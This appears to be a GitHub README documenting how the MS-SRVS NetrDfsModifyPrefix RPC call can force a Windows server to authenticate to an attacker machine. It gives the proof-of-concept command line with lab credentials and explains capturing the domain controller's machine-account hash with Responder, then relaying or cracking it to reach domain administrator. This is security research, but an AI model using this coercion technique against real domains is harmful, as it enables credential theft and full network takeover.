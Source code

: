 # MS-SRVS - Remote call to NetrDfsModifyPrefix (opnum 50)

## Summary

 - **Protocol**: [[MS-SRVS]: Server Service Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-srvs/accf23b0-0f57-441c-9185-43041f1b0ee9)

 - **Protocol UUID**: 4b324fc8-1670-01d3-1278-5a47bf6ee188

 - **Protocol version**: 3.0

 - **SMB Named pipe**: `\PIPE\srvsvc`

 - **Function name**: [`NetrDfsModifyPrefix`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-srvs/94aec68c-00b2-4b87-bb9e-7f144ab7a7fc)

 - **Function operation number**: `50`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\PIPE\srvsvc` and bind to the desired [`MS-SRVS`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-srvs/accf23b0-0f57-441c-9185-43041f1b0ee9) protocol (with uuid `4b324fc8-1670-01d3-1278-5a47bf6ee188` and version `3.0`) in order to perform remote procedure calls to functions in the [`MS-SRVS`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-srvs/accf23b0-0f57-441c-9185-43041f1b0ee9) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\srvsvc` This pipe is connected to the protocol [[MS-SRVS]: Server Service Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-srvs/accf23b0-0f57-441c-9185-43041f1b0ee9) and allows to call RPC functions of this protocol. We will then call the remote [`NetrDfsModifyPrefix`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-srvs/94aec68c-00b2-4b87-bb9e-7f144ab7a7fc) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
NetrDfsModifyPrefix('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
NET_API_STATUS NetrDfsModifyPrefix(
   [in, string, unique] SRVSVC_HANDLE ServerName,
   [in] GUID* Uid,
   [in, string] WCHAR* Prefix
 );
```

## References

 - Documentation of protocol [MS-SRVS]: Server Service Remote Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-srvs/accf23b0-0f57-441c-9185-43041f1b0ee9

 - Documentation of function `NetrDfsModifyPrefix`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-srvs/94aec68c-00b2-4b87-bb9e-7f144ab7a7fc